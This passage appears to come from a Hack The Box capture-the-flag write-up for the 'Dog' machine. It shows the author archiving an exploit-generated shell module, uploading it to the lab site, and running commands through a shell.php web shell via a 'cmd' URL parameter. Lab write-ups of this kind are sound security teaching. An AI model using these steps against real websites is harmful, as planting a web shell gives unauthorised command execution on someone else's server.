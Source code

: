 Exploit also generated a `shell` folder, so we compress generated folder to `shell.tar` and we are going to use that

```bash
┌──(kali㉿kali)-[~/Documents/HTB/dog]
└─$ tar -cvf shell.tar shell                                              
shell/
shell/shell.info
shell/shell.php
```

Uploading it shows a message indicating a successful installation

![alt text](../assets/img/posts/2025-08-25-htb-writeup-dog/image-4.png)

Then going to `http://dog.htb/modules/shell/shell.php?cmd=id` as the script mentioned we get code execution.

![alt text](../assets/img/posts/2025-08-25-htb-writeup-dog/image-5.png)

